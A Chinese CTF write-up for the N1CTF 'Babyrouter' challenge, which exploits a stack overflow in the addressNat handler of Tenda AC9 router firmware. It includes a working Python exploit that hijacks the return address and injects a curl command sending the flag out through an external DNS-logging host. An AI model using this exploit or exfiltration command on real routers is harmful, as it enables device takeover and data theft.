 ```yaml
---
title: 作业没做完打不了N1CTF惨惨
author: nepire
avatar: 'https://wx1.sinaimg.cn/large/006bYVyvgy1ftand2qurdj303c03cdfv.jpg'
authorLink: 'https://nepire.github.io/'
authorAbout: 逐梦者
authorDesc: 逐梦者
categories: 技术
comments: true
date: 2020-10-20 14:23:03
tags:
keywords:
description:
photos:
---
```

#n1ctf摸鱼路上财务报表作业要交了惨惨

做到后面突然想起了作业还没写，半途跑路（惨惨

赛后和出题人聊了下发现本来是0day题，但环境没配好，结果就是这题的利用简单了很多，虽然只有四解

#### Babyrouter


![](https://i.imgur.com/gds4EsC.png)


这次就整了这题，题目给了个docker包
![](https://i.imgur.com/cOIfqje.png)


但从我在Windows下解压这个环境的时候就gg了，这些环境问题最后再一起说

很明显的能知道我们需要分析的是httpd，经过简单的分析过后我们能知道这是

> Tenda AC9 V1.0 V15.03.05.19

的路由器的一部分，这种时候能去找cve或者直接挖0day来做题，脚本稍微扫一下

![](https://i.imgur.com/UYVl7Kb.png)


emmm，这里面应该不少0day但我还是直接找cve吧，一个个看过去可太慢了


随便拿了个出来发现确实存在，不过网上只有poc，exp需要我们自己去写
![](https://i.imgur.com/B3mPwaf.png)

![](https://i.imgur.com/TV5Kk9g.png)


最蛋疼的就是搭调试环境了，找洞三分钟，搭环境三小时
![](https://i.imgur.com/WBuOL9P.png)

当时在审计的时候看到字符串有个doshell还以为是什么官方后门，找到对应函数才发现不是，不过也为我们利用提供了不少便利，我们只要设置好$r11然后跳转到这就能任意命令执行
![](https://i.imgur.com/wmCkLXi.png)


这里先简单的介绍下ldr的命令

> LDR R0，[R1，#8] ；将存储器地址为R1+8的字数据读入寄存器R0

然后回到fromaddressnat

通过简单的测试后发现填充的cccc是返回地址，就是pc，修改对应位置为doshell所在的位置后重新调试成功跳转
![](https://i.imgur.com/X0XGxvH.png)


但由于\$r11和\$r4没设置成正确指针所以无法再继续步进，构造下指针就能任意代码执行了，懒的反弹shell就直接dns带出来了

![](https://i.imgur.com/Md98HDi.png)

exp如下

```python
#!/usr/bin/env python2
# n1ctf{42926f989b610f3f8e717d8a252bcc21}
from pwn import *
import requests
cmd = 'curl $(cat /flag).yf2erc.dnslog.cn;'
#cmd = ""
payload  = p32(0xf6fff9ec+4)+cmd.ljust(0xf0,"a")
payload += p32(0xf6fff9ec+16)
payload += p32(0x6B154)
data = {'entrys':'aaaa','mitInterface':'aaaa','page':payload}
cookie = {'Cookie':'password=1234'}
#r = requests.post('http://127.0.0.1:2333/goform/addressNat',data = data,cookies=cookie)
r = requests.post('http://8.210.119.59:9990/goform/addressNat',data = data,cookies=cookie)
```



重点笔记开始了，主要有两个总结的地方

1.lib的链接问题

我在上面也讲了，在Windows下解压这个环境gg了，先说结果，在windows下解压带符号链接的zip包时会导致链接失效变成ascii文本，然后在我写这篇文章时发现即使在ubuntu环境下，利用ubuntu自带的gui解压工具把文件拖出来链接文件是直接不显示不解析，也不会解压
![](https://i.imgur.com/i5UNKg8.png)


只有`unzip file.zip`才能正常带符号的解压出来

2.调试环境

这次比较好整，就改了run.sh和start.sh两个文件修改如下
![](https://i.imgur.com/sdI1UiX.png)
![](https://i.imgur.com/N0QYurf.png)


剩下的就是外部使用gdb-multiarch调试本地1147端口，都是传统调试方法，然后还是推一波我的gdb环境

https://github.com/Nepire/Pwngdb
